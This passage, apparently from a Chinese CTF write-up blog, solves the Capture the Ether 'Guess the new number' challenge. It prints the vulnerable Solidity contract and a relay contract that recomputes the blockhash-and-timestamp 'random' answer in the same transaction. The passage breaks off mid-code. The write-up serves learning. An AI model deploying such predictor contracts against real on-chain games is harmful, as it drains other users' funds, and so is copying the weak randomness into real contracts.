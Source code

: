 ```yaml
---
title: "capture the ether wp"
date: 2021-02-23
update: 2021-02-23
categories: "blockchain"
tags: "blockchain"
---
```


## Lotteries



### Guess the new number

题目源码

```solidity
pragma solidity ^0.4.21;

contract GuessTheNewNumberChallenge {
    function GuessTheNewNumberChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function guess(uint8 n) public payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

题目中的answer这次不会保存在区块中，而是直接保存在evm当中，不仅如此，题目中的now和block number也是无法提前预知的。

这里有一个比较简单的办法即使用一个中继合约。

```solidity
contract GuessTheNewNumberSolver {
    address owner;

    function GuessTheNewNumberSolver() public {
        owner = msg.sender;
    }

    function guess(address _challenge)
    public
    payable {
        require(msg.value == 1 ether);
        uint8 answer = uint8(keccak256(block.blockhash(block.number - 1), now));

        GuessTheNewNumberChallenge challenge = GuessTheNewNumberChallenge(_challenge);
        challenge.guess.value(msg.value)(answer);
    }

    function ()
    public
    payable {
```